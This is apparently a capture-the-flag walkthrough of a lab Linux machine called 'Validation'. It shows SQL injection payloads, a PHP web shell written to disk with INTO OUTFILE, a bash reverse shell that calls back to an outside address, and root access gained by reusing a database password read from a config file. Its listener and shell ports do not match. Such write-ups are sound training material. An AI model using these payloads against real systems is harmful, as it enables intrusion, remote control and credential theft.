




# Validation
### OS: Linux
### Difficulty: Easy

## Enumeration:
I'll start with a simple port scan.
```bash
nmap -sC -sV -p- 10.129.95.235 -oN nmap.txt

22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll start by taking a look at the HTTP server on port 80.



I'll test this for XSS.
```html
<script>alert(1);</script>
```



It works! But I don't think there is another user. I'll test for SQLi on the "country" parameter.
Payload:
```
username=a&country=Aruba'
```



And there might be one. I'll modify the payload to ignore the rest of the command.
```bash
username=a&country=Aruba'-- -
```



Now we can confirm there is a SQLi vulnerability. Further enumeration:

List databases:
```
username=a&country=Aruba' UNION select DATABASE();-- -
```
We get:
```
registration
```

Let's see what rights we have. First let's see as what user are we connect to the database.
```
username=a&country=Aruba' UNION select user();-- -
```
Output:
```
uhc@localhost
```

```
username=a&country=Aruba' UNION select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'";-- -
```

Rights:
```
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```

## Foothold:

The file right stands out. We could try to add a reverse shell page.

```
username=a&country=Aruba' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/shl.php' ;-- -
```

Now let's test it:
```bash
curl http://10.129.95.235/shl.php?cmd=ls
account.php
config.php
css
index.php
js
shl.php
```

It works! Now let's start a reverse shell.
```bash
# On host:
rlwrap nc -lnvp 6666

# On web shell
touch shl.sh
echo 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1'>shl.sh
bash shl.sh
```

**Note**: There was some kind of filtering mechanism. That's why I could not just start the reverse shell from the web shell.

## Privilege Escalation:

We can now look at the config file.
```bash
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Maybe this is a password reuse situation.
```bash
su -
uhc-9qual-global-pw

whoami
root
```

And I was right! We got both flags!